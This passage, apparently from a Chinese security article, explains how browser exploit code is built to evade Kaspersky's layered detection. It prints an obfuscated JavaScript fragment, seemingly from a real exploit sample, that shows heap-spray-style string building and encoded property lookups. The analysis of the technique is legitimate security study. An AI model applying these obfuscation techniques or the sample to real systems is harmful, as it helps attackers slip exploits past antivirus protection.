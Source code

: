卡巴斯基的检测策略并不是单一的，不是采用一种检测思路，而是采用多种检测策略进行组合检测。比如说某一个浏览器漏洞利用代码绕过了JavaScript解码检测，但是在ShellCode部分就不一定能够绕过。

0x04 漏洞利用对抗卡巴斯基检测策略
-------------------

* * *

魔高一尺道高一丈，还是道高一尺魔高一丈，没有一个定论。放在漏洞利用与杀毒软件的对抗上也同样适用，这是一对矛盾发展的综合体。漏洞利用对抗以卡巴斯基为代码的杀毒软件的主要思路就是使其把恶意代码识别为程序执行正常代码，混淆杀毒软件的对恶意代码的识别能力，抓住这一点就能够很好的理解漏洞利用针对卡巴斯基所做的精心构造的技巧：

**1、 脚本代码混淆**

代表了一类漏洞利用中使用的技巧，纵观网络上爆出真实的漏洞利用样本，没有一个是直接使用原始的脚本代码，都是经过了一些巧妙构造，最简单的就是加密混淆，最终混淆出来的代码面目全非，分析人员手动进行分析都有很大的难度需要花费大量的精力，更别说软件能够识别了。

```
    function eQUIVALENT(cARDINI) {
    var mIRACOL = rIGUARDI(vILMENTE(cARDINI));
    while (mIRACOL.length < (2 * 2 * 2 * 2 * 2 * 2 * 2 * 2 * 2 * 2 * 2 * 13 * 2))
    mIRACOL += mIRACOL;
    pECCATORE((2 * 2 * 2 * 2 * 2 * 2 * 2 * 2 * 2));
    var cHIAMATO = [];
    var rENDUTO = ((cARDINI >>> 16) & (13 + 2 * 11 * 11)).toString((2 * 5 + 2 * 3));
    var sMISURATO = (cARDINI >>> 24).toString((3 * 3 + 7));
    if (rENDUTO.length == 1)
        rENDUTO = "0" + rENDUTO;
    if (sMISURATO.length == 1)
        sMISURATO = "0" + sMISURATO;
    if (vOLENCI["dIAVOLO"].indexOf("9.") == 0)
        for (var oFFICIO = 10; oFFICIO < 80; oFFICIO++) {
            var gANELLONE = rIGUARDO(rENDUTO + sMISURATO);
            cHIAMATO.push(mIRACOL.substring(0, ((2 * 5 * 2 * 19 * 139) / 2) - 3) + gANELLONE);
        }
    else
        for (var oFFICIO = 10; oFFICIO < 80; oFFICIO++) {
            var gANELLONE = rIGUARDO(rENDUTO + sMISURATO);
            cHIAMATO.push(mIRACOL.substring(0, ((47 * 2 * 7 * 5 * 2 * 2 * 2 * 2) / 2) - 3) + gANELLONE);
        }
    var dEFECTIVE = [];
    for (var aLLODETTA = 0; aLLODETTA < cHIAMATO.length; aLLODETTA++)
        if (aLLODETTA % 2 == 0)
            dEFECTIVE.push(cHIAMATO[aLLODETTA] + qUETARSI);
    pECCATORE(vOLENCI[sHOGG('rtboteejucaOCn', 4013, 6949)]);
}
var cONTRARIA = [];
function dISGRIEVI(pRELIBA) {
    if (vOLENCI[sHOGG('IAVOLOd', 9323, 8863)].indexOf("9.") == 0)
        for (var oFFICIO = 10; oFFICIO < 40; oFFICIO++)
            pOSSEDER.push(gRIDARO.substring(0, ((3 * 3 * 61 * 3 * 17 + 24821) / 2) - 3) + oFFICIO.toString());
    else
        for (var oFFICIO = 10; oFFICIO < 40; oFFICIO++)
            pOSSEDER.push(gRIDARO.substring(0, ((3 * 239 * 2 * 2 + 541 * 2 * 2 * 23) / 2) - 3) + oFFICIO.toString());
    pECCATORE(pRELIBA);
}

```
